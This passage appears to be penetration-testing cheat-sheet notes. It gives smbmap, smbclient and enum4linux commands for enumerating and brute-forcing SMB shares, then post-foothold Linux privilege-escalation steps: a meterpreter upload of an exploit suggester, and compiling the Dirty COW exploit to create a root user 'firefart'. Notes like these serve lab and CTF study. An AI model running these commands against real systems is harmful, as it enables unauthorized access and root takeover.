 > Brute force samba command.

```Shell
smbmap -H <ip-address> -u <user-name> -p password1
```

> List downs all the shares of the given user.

```Shell
smbclient //<ip-address>/<share-name> -U admin 
```

> This command be used to connect to a particular share.

```Shell
enum4linux -a <ip-address>
```

> Basic target information.

```Shell
enum4linux -a -u <user-name> -p <password> <ip-address>
```

> For a particular user.

#### Linux Kernel Exploits:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold.

```meterpreter
upload les.sh
shell
/bin/bash -i
chmod +x les.sh
./les.sh
```

> This script works as the exploit suggester for linux.

```console
https://www.exploit-db.com/exploits/40839
```

> This link has the exploit for the dirty cow vulnerability.

```Shell
gcc -pthread <exploit-file-name>.c -o dirty -lcrypt
chmod +x dirty
```

> This forms the executable of the given file by the name `dirty`. After this upload the file on the machine using the meterpreter session.

***IF IT ISN'T WORKING YOU CAN THEN UPLOAD THE C FILE DIRECTLY ON TO THE MACHINE AND THEN RUN THESE COMMADS THERE TO FORM AND EXECUTABLE***

> After the script has ran successfully it will create a user by the name `firefart` that would have the root privileges.
